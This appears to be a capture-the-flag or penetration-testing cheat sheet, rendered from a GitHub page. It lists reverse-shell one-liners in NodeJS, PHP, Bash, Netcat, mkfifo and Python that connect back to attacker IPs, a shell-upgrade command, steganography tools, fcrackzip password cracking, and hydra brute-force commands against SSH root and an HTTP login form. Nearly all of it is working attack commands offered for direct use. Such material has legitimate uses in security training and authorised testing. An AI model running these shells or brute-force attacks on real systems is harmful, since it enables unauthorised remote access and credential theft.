 Shells
------
**NodeJs**

      require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f', ()=>{}) 
**PHP** 

      <?php echo shell_exec('bash -i >& /dev/tcp/192.168.30.31/12345 0>&1'); ?>
**Bash**

      bash -i >& /dev/tcp/IP/PORT 0>&1
**Netcat**

      nc -e /bin/sh IP PORT
**BindShell**

      rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
**Python**

      python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.65.210",1313));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

https://highon.coffee/blog/reverse-shell-cheat-sheet/


Upgrading Shells
----------------
      python -c 'import pty; pty.spawn("/bin/bash")'

Steganography
-------------
      zsteg <file-name.png>
      stegcracker <file-name> <wordlist>
      stegoveritas (w/o)-steghide <file-name>
      exiftool <file-name>
      steghide extract -sf <file-name>

**Sound Analysis**

Sonic Visualizer https://www.sonicvisualiser.org/

{Layer> Add Spectrogram}

Cracking Zip files
------------------
      fcrackzip -b --method 2 -D 2 -p ~/rockyou.txt file.zip
      fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u b******.*** -v

Brute Forcing Logins
====================
SSH
---
      hydra -s 22 -v -V -l root -P /usr/share/wordlists/rockyou.txt -t 8 IP ssh
HTTP
---
      hydra -l username -P wordlist.txt IP http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

